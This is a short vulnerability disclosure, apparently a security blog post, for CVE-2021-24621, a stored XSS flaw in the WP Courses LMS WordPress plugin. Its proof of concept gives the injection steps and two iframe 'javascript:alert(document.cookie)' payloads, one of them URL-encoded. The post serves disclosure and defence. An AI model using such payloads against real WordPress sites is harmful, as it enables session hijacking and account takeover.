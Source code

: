 ```yaml
---
title: "WP Courses LMS < 2.0.44 - Authenticated Stored XSS via Video Embed Code"
classes: wide
author_profile: true
header:
  teaser: /assets/images/wordpress-plugins-vuln.jpg
search: true
categories: 
  - CVE
tags:
  - CVE
last_modified_at: 2021-10-01T15:58:26+08:00
toc: true
toc_label: "Contents"
---
```


# Description
The plugin does not sanitise its Video Embed Code, allowing malicious code to be injected in it by high privilege users, even when the unfiltered_html capability is disallowed, which could lead to Stored Cross-Site Scripting issues

# Proof of Concept
On the dashboard, navigate to `WP Courses > Courses > Add New > Video Embed Code (iframe) (in the Post settings)`, inject with `<iframe>` XSS payload, such as 

```text
<iframe src="javascript:alert(document.cookie)"></iframe>;<iframe src="javascript:%61%6c%65%72%74%28%64%6f%63%75%6d%65%6e%74%2e%63%6f%6f%6b%69%65%29"></iframe>
```
Then, click `Update`, and to trigger XSS payload, open URL path of course 

# Timeline
- Publicly Published : 2021-08-16 (about 1 months ago)
- Added : 2021-08-16 (about 1 months ago)
- Last Updated : 2021-08-16 (about 1 months ago)

# Links
- [WP Courses LMS < 2.0.44 - Authenticated Stored XSS via Video Embed Code](https://wpscan.com/vulnerability/bfbb32ac-9ef9-46de-8e5e-7d6d6fb868d8)
- [CVE-2021-24621](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-24621)